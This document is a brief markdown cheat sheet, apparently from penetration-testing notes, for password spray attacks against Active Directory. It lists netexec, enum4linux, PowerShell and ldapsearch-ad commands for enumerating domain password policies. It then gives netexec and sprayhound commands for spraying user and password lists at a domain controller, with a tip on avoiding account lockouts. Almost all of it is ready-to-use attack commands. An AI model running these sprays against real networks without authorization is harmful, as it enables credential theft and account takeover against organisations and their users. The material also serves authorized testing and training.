 # Password Spray Attack

## Tools: CrackMapExec/Netexec , sprayhound

## TIP: Get password policy first to prevent account lockouts! Usually, you need creds for this, but before starting the spray you may get the policy)

## Commands:

### Password Policy

 - netexec IP -u 'USER' -p 'PASSWORD' --pass-pol

 - enum4linux -u 'USERNAME' -p 'PASSWORD' -P IP

 - Get-ADDefaultDomainPasswordPolicy

 - Get-ADFineGrainedPasswordPolicy -filter * (Fine Grained Password Policy (FGPP)

 - Get-ADUserResultantPasswordPolicy -Identity USER

 - ldapsearch-ad.py --server 'DC' -d DOMAIN -u USER -p PASS --type pass-pols

### Password Spray

 - netexec smb DC_IP -u USER.TXT -p PASSWORD.TXT --no-bruteforce (Test user=password)

 - netexec smb DC_IP -u USER.TXT -p PASSWORD.TXT (Multiple test)

 - sprayhound -U USERS.TXT -d DOMAIN -dc DC_IP

